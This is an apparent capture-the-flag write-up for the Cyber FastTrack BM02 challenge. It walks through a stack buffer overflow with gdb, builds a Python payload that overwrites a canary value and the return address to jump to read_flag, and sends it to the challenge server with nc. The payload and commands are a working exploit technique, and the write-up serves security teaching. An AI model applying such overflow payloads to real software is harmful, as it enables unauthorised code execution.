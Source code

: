 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG ![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.\

BM02_2.PNG ![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c
BM02_3.PNG	
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.
BM02_4.PNG and BM02_5.PNG and BM02_6.PNG
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`
* Enter one information for each of the First Name, Last Name, and Job Title.
* * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`
BM02_7.PNG
	Enter info frame to get the return address that stored at eip. In this case, the return address is 0x56557492. 
BM02_8.PNG
	Display the current and the next 199 stack pointer.
	Enter x/200x $sp
	The addresses that are 0x00000000 are local variables that we need to fill in before changing the return address. So in a text file, we enter
	print("add_candidate")
	print('A'*20)
	and save it as a python file.
BM02_9.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are 25 0x00000000 remaining for us to fill out and then we have to overwrite the 0xdeadbeef.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are 3 adresses remaining to changes. Then, we changes the return address to 0x5655615d. Remember, we have to write the address in reverse byte order.
	We changes the contents of the python file to:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
BM02_10.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	Enter info frame to see if the return address changed to 0x5655615d.
BM02_11.PNG
	Use si to execute one instruction at a time to see if the program enters the read_flag(void) function.
	We see that the program enters the read_flag(void) function.
BM02_12.PNG
	Use si to execute one instruction at a time and we will see the flag eventually.
BM02_13.PNG
	In order to get the server to response to our request, we also need to print out the last name and the job title, so we edit the python file as below:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
	print("last name")
	print("job title")
	Send the bm02.py to the server and it would prints out the flag.
	python bm02.py | nc bm02.allyourbases.co 9003





	
